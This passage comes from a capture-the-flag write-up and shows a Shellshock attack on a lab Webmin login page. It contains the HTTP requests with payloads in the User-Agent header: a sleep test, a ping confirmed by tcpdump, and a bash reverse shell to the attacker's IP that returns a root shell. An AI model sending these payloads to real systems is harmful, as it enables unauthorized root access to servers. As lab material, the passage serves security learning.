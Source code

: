 

    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };sleep 10
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Origin: https://10.10.10.7:10000
    DNT: 1
    Connection: close
    Referer: https://10.10.10.7:10000/
    Cookie: testing=1; sid=x
    Upgrade-Insecure-Requests: 1

    page=%2F&user=root&pass=root



It hangs for 10 seconds and then returns. I'll try a `ping`:



    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };ping -c 1 10.10.14.2
    Content-Length: 28

    page=%2F&user=root&pass=root



At `tcpdump`, I see it arrive:



    root@kali$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:46:35.325588 IP 10.10.10.7 > 10.10.14.2: ICMP echo request, id 23824, seq 1, length 64
    14:46:35.325599 IP 10.10.14.2 > 10.10.10.7: ICMP echo reply, id 23824, seq 1, length 64



So now can get shell (as root):



    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
    Content-Length: 28

    page=%2F&user=root&pass=root





    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 36248
    bash: no job control in this shell
    [root@beep webmin]# id
    uid=0(root) gid=0(root)
